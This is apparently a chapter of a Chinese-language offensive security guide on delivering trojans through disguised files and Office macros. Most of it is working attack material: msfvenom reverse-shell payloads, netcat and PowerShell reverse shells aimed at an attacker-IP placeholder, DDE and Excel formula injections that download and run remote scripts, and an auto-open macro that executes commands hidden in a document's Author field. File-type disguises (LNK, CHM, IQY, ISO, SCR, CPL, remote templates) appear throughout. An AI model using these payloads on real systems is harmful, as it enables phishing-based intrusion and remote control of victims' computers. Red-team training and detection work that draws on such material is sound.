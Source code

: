 # 木马投递

## 恶意软件伪装

### 文件伪装

1. 快捷方式伪装

(1)

[lnk.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/lnk.ps1)

(2)

[ico.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/ico.ps1)

[download.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/download.ps1)

hi.exe:

```bash
msfvenom -p windows/x64/messagebox TEXT='There is payload!' TITLE='Ghost Wolf Lab' -f exe > hi.exe
```

(3)

[ole.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/ole.ps1)

nc.cmd:

```bash
C:\Users\Administrator\Desktop\nc.exe IP地址 4444 -e cmd.exe  
//嵌入攻击者主机IP地址
```

2. CHM文件

[nc.html](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/nc.html)

```bash
nc -lvp 4444
```

nishang:

```bash
Import-Module .\Out-CHM.ps1
out-chm -payload "C:\Users\Administrator\Desktop\nc.exe -e powershell IP地址 5555" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
nc -lvp 5555
```

3. IQY文件

test.iqy:

```bash
WEB
1
https://www.baidu.com/robots.txt
```

calc.dat:

```bash
=cmd|' /C calc'!notthissheet
```

calc.iqy:

```bash
WEB
1
http://IP地址/payload/calc.dat
```

(1)

```bash
Start-CaptureServer -AuthType Basic -IPAddress IP地址 -LogFilePath log.txt
```

login.dat:

```bash
=cmd|' /C start iexplore http://IP地址/'!notthissheet
```

auth.iqy:

```bash
WEB
1
http://IP地址/payload/login.dat
```

(2)

```bash
=cmd|' /C C:\Users\Administrator\Desktop\nc.exe IP地址 4444 -e cmd.exe'!notthissheet
```

```bash
=cmd|' /C powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://IP地址/nishang/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress IP地址 -Port 4444"'!notthissheet
```

4. REG文件

[malicious.reg](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/malicious.reg)

5. VBS文件

[evil.vbs](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.vbs)

6. JScript文件

[evil.js](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.js)

7. ISO文件

```bash
apt-get install genisoimage
mkisofs -o malicious.iso -V "Update" -J -R hi.exe
```

8. MSI文件

```bash
msfvenom执行msfvenom -p windows/x64/messagebox TEXT='Hi,There is a payload!' TITLE='Ghost Wolf Lab' -f msi > evil.msi
```

9. SCR文件

```bash
msfvenom执行msfvenom -p windows/x64/messagebox TEXT='Hi,There is a payload!' TITLE='Ghost Wolf Lab' -f exe > payload.exe
payload.exe > payload.scr
```

10. 联系人文件

(1)

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f dll > shell.dll
```

```bash
http.\\www.ghostwolflab.com.cpl
shell.dll > www.ghostwolflab.com.cpl
```

(2)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=5555 -f vbs > shell.vbs
```

```bash
<a href="vbs\shell.vbs">snowwolf@admin.com</a>
```

11. CPL文件

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f dll > shell.dll
```

### 宏病毒

弹窗宏:

```vba
Private Sub Document_Open()
  MsgBox "Hi,I am snowwolf.", vbOKOnly, "Ghost Wolf Lab"
End Sub
```

1. Metasploit框架生成宏

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f vba-psh > vba
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f vba-exe
```

2. 页面替换宏

[page.vba](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/page.vba)

3. Regsvr32方法

[evil.sct](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.sct)

[Regsvr32下载](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/Regsvr32下载)

4. Author属性

```bash
powershell -NoP -ExecutionPolicy Bypass -Command IEX ((New-Object Net.WebClient).DownloadString('http://IP地址/payload/hacker.ps1'))
```

hacker.ps1 > msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f psh-cmd

```bash
Sub AutoOpen()
    ' 读取Author属性中的恶意代码
    Dim strCmd As String
    strCmd = ActiveDocument.BuiltInDocumentProperties("Author").Value
    ' 执行恶意代码
    Shell strCmd, vbHide
End Sub
```

5. 基于ActiveX的自动运行宏

[嵌入ActiveX自动运行宏](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/嵌入ActiveX自动运行宏)

active.ps1 > msfvenom -p windows/x64/messagebox TEXT='Hi,I am Snowwolf' TITLE='Ghost Wolf Lab' -f psh-cmd > active.ps1

6. 基于Certutil直接下载并运行

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f exe > cer.exe
```

[Certutil下载并运行](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/Certutil下载并运行)

7. 远程模板注入

[远程模板VBA](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/远程模板VBA)

file name = http://192.168.0.189/payload/evil.dotm

8. DDE

```bash
{DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell.exe -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://IP地址/payload/active.ps1')"}
```

Excel:

```bash
=cmd|'/c cmd.exe /c powershell.exe -nop -w hidden iwr -outf %tmp%\\excel.vbs http://IP地址/payload/excel.vbs & %tmp%\\excel.vbs'!'A1'
```

excel.vbs:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f vbs > excel.vbs
```

9. Excel XLM宏

```bash
=EXEC("C:\\Users\\Administrator\\Desktop\\nc.cmd")
=HALT()
```
